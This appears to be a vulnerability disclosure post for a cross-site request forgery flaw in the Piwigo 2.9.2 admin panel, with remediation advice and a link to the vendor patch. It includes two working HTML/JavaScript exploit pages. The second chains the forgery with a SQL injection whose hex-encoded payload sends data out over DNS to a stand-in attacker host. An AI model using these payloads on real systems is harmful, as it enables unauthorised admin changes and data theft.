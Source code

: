 ```yaml
---

layout: post
title: CVE-2017-17827 Cross Site Request Forgery in Piwigo 2.9.2

---
```


### Affected Version : <=2.9.2

### Description:

It was identified that admin panel of Piwigo application is vulnerable to [Cross Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)) vulnerabilities. An attacker can exploit these vulnerabilities to coerce user in performing unintended actions.



### Vulnerable Instances:

- /admin.php?page=configuration&section=main **[CVE-2017-17827]**



### Steps to Reproduce

* Login to `admin` user account.
* Save the following exploit in a new html file, example: `csrf_exploit.html`.

> CSRF Exploit Code

```html
<!--csrf_exploit.html-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/piwigo-2.9.2\/piwigo\/admin.php?page=configuration&section=main", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "gallery_title=CSRF+ATTACK&page_banner=test+banner&order_by%5B%5D=date_available+DESC&order_by%5B%5D=file+ASC&order_by%5B%5D=id+ASC&rate_anonymous=on&allow_user_registration=on&allow_user_customization=on&week_starts_on=monday&history_guest=on&log=on&mail_theme=clear&submit=";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

* Open the `csrf_exploit.html` file in the same browser in a new tab as of `admin` user has logged in.
* Observe the title of application is changed to `CSRF ATTACK`.

![csrf_poc](/assets/images/piwigo2.9.2/csrf.png)



### Out of Band SQL Injection via CSRF

Following `Exploit` shows that using above attack an attacker can exploit other vulnerabilities with in the application such as `SQL Injection` and exfiltrate data via DNS queries.

```html
<!--Out of band SQL Injection via CSRF-->
<html>
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/127.0.0.1\/piwigo-2.9.2\/piwigo\/admin.php?page=batch_manager&mode=unit", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "en-US,en;q=0.5");
        xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
        xhr.withCredentials = true;
        var body = "element_ids=12%2c13)+union+select+LOAD_FILE(group_concat(0x2f2f2f2f,(select+@@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2+--+&name-12=funny+cat+5-wallpaper-1920x1080&author-12=this+is+test&date_creation-12=2016-11-24+00%3A00%3A00&level-12=0&tags-12%5B%5D=this+is+test&description-12=this+is+test&name-13=pirates+of+the+caribbean+dead+men+tell+no+tales-wallpaper-960x600&author-13=this+is+test2&date_creation-13=2016-11-23+00%3A00%3A00&level-13=0&tags-13%5B%5D=this+is+test2&description-13=this+is+test2&submit=Submit";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
  </body>
</html>
```

![csrf_dns](/assets/images/piwigo2.9.2/csrf_2.png)



### Remediation:

Piwigo 2.9.2 application implements CSRF attack protection via `_csrf`  tokens in number of components, it is recommended to implement similar protection for `Configuration` components. Addition information on CSRF Prevention techniques can be found [here](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

### Vendor Patches:

The patch released by vendor for this issue can be found [here](https://github.com/Piwigo/Piwigo/commit/c3b4c6f7f0ddeaea492080fb8211d7b4cfedaf6f)
